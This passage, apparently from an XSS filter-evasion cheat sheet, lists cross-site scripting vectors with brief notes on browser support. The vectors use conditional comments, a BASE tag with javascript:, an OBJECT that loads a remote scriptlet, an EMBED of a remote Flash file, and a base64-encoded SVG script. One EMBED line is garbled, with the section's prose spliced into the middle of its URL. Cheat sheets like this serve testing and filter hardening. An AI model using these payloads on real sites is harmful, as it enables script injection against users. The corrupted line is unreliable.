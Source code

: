 Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine
mode). Some websites consider anything inside a comment block to be safe
and therefore does not need to be removed, which allows our Cross Site
Scripting vector. Or the system could add comment tags around something
to attempt to render it harmless. As we can see, that probably wouldn't
do the job:

`<!--[if gte IE 4]>`  
` <SCRIPT>alert('XSS');</SCRIPT>`  
` <![endif]-->`

## BASE tag

Works in IE and Netscape 8.1 in safe mode. You need the // to comment
out the next characters so you won't get a JavaScript error and your XSS
tag will render. Also, this relies on the fact that the website uses
dynamically placed images like "images/image.jpg" rather than full
paths. If the path includes a leading forward slash like
"/images/image.jpg" you can remove one slash from this vector (as long
as there are two to begin the comment this will work):

`<BASE HREF="javascript:alert('XSS');//">`

## OBJECT tag

If they allow objects, you can also inject virus payloads to infect the
users, etc. and same with the APPLET tag). The linked file is actually
an HTML file that can contain your XSS:

` <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

## Using an EMBED tag you can embed a Flash movie that contains XSS

Click here for a demo. If you add the attributes
allowScriptAccess="never" and allownetworking="internal" it can mitigate
this risk (thank you to Jonathan Vanasco for the info).:

`EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:`  
`org/xss.swf" AllowScriptAccess="always"></EMBED>`

## You can EMBED SVG which can contain your XSS vector

This example only works in Firefox, but it's better than the above
vector in Firefox because it does not require the user to have Flash
turned on or installed. Thanks to nEUrOO for this one.

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`
